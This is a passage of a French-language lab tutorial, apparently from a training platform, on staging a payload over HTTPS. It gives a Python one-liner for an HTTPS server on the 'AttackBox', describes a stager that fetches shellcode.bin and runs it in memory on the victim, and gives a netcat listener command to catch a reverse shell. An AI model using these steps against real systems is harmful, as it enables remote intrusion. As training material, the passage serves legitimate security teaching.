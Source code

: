 Certaines informations vous seront demandées, mais n'hésitez pas à appuyer sur Entrée pour toute information demandée, car nous n'avons pas besoin du certificat SSL pour être valide. Une fois que nous avons un certificat SSL, nous pouvons créer un simple serveur HTTPS en utilisant python3 avec la commande suivante :

Boîte d'attaque

```
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

Avec tout cela prêt, nous pouvons maintenant exécuter notre charge utile stager. Le stager doit se connecter au serveur HTTPS et récupérer le fichier shellcode.bin pour le charger en mémoire et l'exécuter sur la machine victime. N'oubliez pas de configurer un écouteur nc pour recevoir le shell inversé sur le même port spécifié lors de l'exécution de msfvenom :

Boîte d'attaque

```
user@AttackBox$ nc -lvp 7474
```
